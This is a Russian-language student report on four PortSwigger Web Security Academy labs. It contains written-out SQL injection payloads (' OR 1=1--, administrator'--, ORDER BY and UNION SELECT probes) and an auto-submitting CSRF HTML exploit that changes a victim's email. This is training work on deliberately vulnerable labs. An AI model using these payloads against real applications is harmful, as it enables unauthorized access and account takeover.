[На главную](../README.md)

# Отчет по лабораторным работам PortSwigger Web Security Academy

---

## Лабораторная работа 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Ссылка:** [Ссылка на лабу](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Описание уязвимости
В фильтре категорий товаров обнаружена уязвимость SQL-инъекции. Приложение не экранирует пользовательский ввод, что позволяет внедрить SQL-код в запрос.

### Ход выполнения
1. Перехвачен запрос на фильтрацию товаров с помощью Burp Suite (Proxy -> Intercept).
2. Исходный запрос:
   ```http
   GET /filter?category=Gifts HTTP/1.1
   ```
3. В параметр `category` внедрен Payload для обхода условия `released = 1`:
   ```sql
   ' OR 1=1--
   ```
4. Итоговый запрос, отправленный на сервер:
   ```http
   GET /filter?category='+OR+1=1-- HTTP/1.1
   ```
### Результат
Сервер выполнил запрос 
 ```sql
 SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
 ``` 
 Условие `OR 1=1` сделало запрос всегда истинным, а комментарий `--` отсек проверку статуса выпуска. 
 На странице отобразились скрытые (невыпущенные) товары.

### Доказательство:
   


--

## Лабораторная работа 2: SQL injection vulnerability allowing login bypass

**Ссылка:** [Ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)

### Описание уязвимости
В механизме аутентификации (форме входа) обнаружена уязвимость SQL-инъекции. Приложение формирует SQL-запрос путем прямой конкатенации пользовательского ввода, не используя параметризованные запросы. Это позволяет атакующему изменить логику SQL-запроса и обойти проверку пароля.


### Ход выполнения
1. Была открыта страница авторизации лаборатории.
2. В Burp Suite был включен режим перехвата (Proxy -> Intercept).
3. В форму были введены тестовые данные (username: `test`, password: `test`).
4. Перехвачен HTTP-запрос `POST /login`.
5. В теле запроса параметр `username` был изменен на следующую полезную нагрузку:
   ```text
   administrator'--
   ```
   

### Результат
Сервер выполнил запрос 
 ```sql
 SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
 ``` 
 Одинарная кавычка (') закрыла строковое значение username.
 Комбинация -- является символом комментария в SQL. Всё, что находится справа от него (включая проверку пароля AND password = ''), было проигнорировано базой данных.
 Запрос вернул данные пользователя administrator, и приложение успешно авторизовало нас как администратора без знания пароля.
 

### Доказательство:
   





---

## Лабораторная работа 3: SQL injection UNION attack, determining the number of columns returned by the query

**Ссылка:** [Ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns#)

### Описание уязвимости
В фильтре категорий товаров обнаружена уязвимость SQL-инъекции. Результаты SQL-запроса напрямую отражаются в ответе приложения. Для дальнейшей эксплуатации (кражи данных из других таблиц) необходимо использовать оператор `UNION`. Однако для успешной UNION-атаки критически важно знать точное количество столбцов, возвращаемых оригинальным запросом.


### Ход выполнения
### Шаг 1. Перехват запроса
С помощью Burp Suite (Proxy -> Intercept) был перехвачен запрос фильтрации:
```http
GET /filter?category=Accessories HTTP/2
```
### Шаг 2. Определение количества столбцов методом ORDER BY
В параметр `category` поочередно внедрялась конструкция `ORDER BY <N>--`.
 - При `' ORDER BY 1--` и `' ORDER BY 2--` приложение возвращало нормальный ответ.
 - При `' ORDER BY 3--` ответ также был успешным.
 - При вводе `' ORDER BY 4--` приложение вернуло ошибку.

**Вывод:** Оригинальный запрос возвращает ровно 3 столбца.

### Шаг 3. Подтверждение с помощью UNION SELECT
Для подтверждения количества столбцов и выполнения условия задания был использован payload с тремя значениями `NULL` (так как типы данных столбцов неизвестны, `NULL` подходит для любого типа):

```sql
' UNION SELECT NULL, NULL, NULL--
```
Итоговый запрос, отправленный на сервер:
```http
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

### Результат
Приложение успешно обработало запрос и вернуло дополнительную строку с нулевыми (NULL) значениями в ответе, что подтверждает успешное определение количества столбцов. 
Лабораторная работа отмечена как **Solved**.

### Доказательство:












---

## Лабораторная работа 4: CSRF vulnerability with no defenses

**Ссылка:** [Ссылка на лабу](https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#)

### Описание уязвимости
Функционал смены email в личном кабинете уязвим к атаке **CSRF (Cross-Site Request Forgery)**. Приложение не использует никаких защитных механизмов (таких как CSRF-токены или проверка заголовка `Referer`), полагаясь исключительно на сессионные cookie. Злоумышленник может заставить браузер жертвы отправить POST-запрос на смену email без её ведома.

### Ход выполнения

### Шаг 1. Анализ запроса
При авторизации под учетной записью `wiener:peter` и попытке смены email, с помощью Burp Suite был перехвачен следующий запрос:

```http
POST /my-account/change-email HTTP/1.1
Host: 0a6b00ea03585be6808e12ed007d005b.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=test%40test.com
```
Запрос уязвим, так как содержит только параметр `email` и не требует подтверждения действий пользователя.

### Шаг 2. Создание вредоносной HTML-страницы (PoC)
Поскольку в запросе нет проверки токена, мы можем сформировать HTML-форму, которая автоматически отправит POST-запрос при загрузке страницы. Код эксплойта:
```html

 <html>
  <body>
    <form action="https://0a6b00ea03585be6808e12ed007d005b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@evil.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```


### Шаг 3. Доставка эксплойта
1. Код был размещен на сервере атакующего (встроенный "Exploit Server" в лаборатории) в разделе "Body" и сохранен ("Store").
2. С помощью кнопки "View exploit" была проверена работоспособность скрипта (email успешно изменился).
3. Кнопкой "Deliver to victim" эксплойт был отправлен жертве.

### Результат
При переходе жертвы на вредоносную страницу, её браузер автоматически отправил POST-запрос на смену email, используя её активную сессию. 
Email жертвы был изменен, и лабораторная работа была засчитана как решенная **Solved**.

### Доказательство:













[На главную](../README.md)
